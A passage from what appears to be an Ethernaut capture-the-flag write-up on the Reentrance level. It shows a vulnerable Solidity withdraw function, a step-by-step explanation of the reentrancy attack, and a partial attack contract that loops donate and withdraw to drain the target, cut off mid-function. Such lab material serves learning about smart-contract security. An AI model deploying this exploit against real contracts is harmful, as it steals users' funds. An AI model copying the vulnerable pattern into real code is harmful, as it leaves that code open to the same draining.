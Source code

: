 ```solidity

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```

- What is going to happen, we need to call `donae` to set a `value` to the balance of contract used for the attack.
- Then call `withdraw` to empty the contract. Since the state changes happen later on, the `receive` function will be called and the attack will be repeated until the attacked contract balance is less than `0.001eth`.

1. Create an external contract calling the instance of the contract made on Ethernaut.
2. Attack the `donate` and `withdraw` function to empty the contract.
3. Then transfer the funds to the owner via the `compensation` function.

`ReentranceAttack` takes as input the contract instance address made on Ethernaut. `Value` also needs to be filled with the amount of ether to send: `1000000000000000`.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

interface IReentrance {
    function donate(address _to) external payable;
    function withdraw(uint _amount) external;
}

contract ReentranceAttack {
    address public owner;
    IReentrance targetContract;
    uint targetValue = 1000000000000000;

    constructor(address _targetAddr) public {
        targetContract = IReentrance(_targetAddr);
        owner = msg.sender;
    }

    function balance() public view returns (uint) {
        return address(this).balance;
    }

    function loopAttack() public payable {
        require(msg.value >= targetValue);
        //donate
        targetContract.donate{value:msg.value}(address(this));
        //withdraw
        targetContract.withdraw(msg.value);
        // hit receive and repeat
    }

    function compensation() public {
```